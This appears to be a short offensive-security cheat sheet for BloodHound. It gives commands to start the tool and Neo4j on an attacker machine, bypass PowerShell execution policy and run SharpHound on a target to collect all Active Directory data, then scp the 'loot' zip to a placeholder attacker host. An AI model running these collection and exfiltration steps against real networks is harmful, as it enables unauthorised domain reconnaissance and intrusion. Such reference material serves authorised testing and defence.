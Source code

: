 ```yaml
---
title: BLOODHOUND
summary: A tool to reveal the hidden and often unintended relationships within an Active Directory or Azure environment.
description: A tool to reveal the hidden and often unintended relationships within an Active Directory or Azure environment.
---
```


**[https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)**

## Start (Attacker Machine)


 > 
 > **<font color=red>sudo neo4j console</font>**</br>
 > Start Neo4j (then connect on http://localhost:7474/).
 > 
 > **<font color=red>bloodhound</font>**</br>
 > Start Bloodhound.

## Loot (Target Machine)

**https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors**

 > 
 > **<font color=red>powershell.exe -ExecutionPolicy bypass</font>**</br>
 > Bypass PowerShell script execution restrictions.
 > 
 > **<font color=red>. .\SharpHound.ps1</font>**</br>
 > Initialize SharpHound.
 > 
 > **<font color=red>Invoke-Bloodhound -CollectionMethod All -Domain</font> \[TARGET_DOMAIN\] <font color=red>-ZipFileName</font> BloudhoundLoot.zip**
 > Run SharpHound.

 > 
 > **<font color=red>scp</font> BloudhoundLoot.zip myUser<font color=red>@</font>\[ATTACKER_MACHINE\]<font color=red>:</font>/home/myUser/**
 > Bring back the loot to the attacker's machine, and open it in Bloodhound Web UI.
